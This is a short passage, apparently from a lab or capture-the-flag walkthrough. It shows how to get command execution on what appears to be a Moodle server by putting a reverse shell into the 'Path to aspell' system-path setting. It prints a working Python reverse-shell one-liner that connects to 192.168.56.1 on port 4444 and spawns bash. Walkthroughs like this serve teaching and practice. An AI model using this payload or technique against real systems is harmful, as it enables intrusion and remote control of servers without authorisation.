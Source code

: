 All we need to do is edit some `system paths` which can be found in `Site administration  -> Server -> System paths` and in the `Path to aspell` we can just add our `reverse shell`.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![](images/eye/reverse-shell.png)
